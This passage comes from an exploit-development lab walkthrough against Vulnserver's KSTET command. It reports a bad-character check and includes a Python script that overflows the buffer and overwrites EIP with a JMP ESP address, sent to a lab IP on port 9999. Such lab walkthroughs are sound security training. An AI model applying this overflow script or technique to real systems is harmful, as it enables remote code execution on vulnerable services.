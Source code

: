 Since our buffer space is low, we will be passing set of 70 bytes of characters in sequence to analyse it in the memory

After covering all characters, we could confirm that ```null byte``` is the only bad character

## Redirecting code execution

Since, this command is similar to ```GTER``` we will be trying the same scripts used before,

```c
──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat jmp-esp.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 jmp-esp.py
```

After crashing, we can see that we landed perfectly on ESP memory

<div align="center">
<img src="./res/kstet-1-jmpesp.png">
</div>
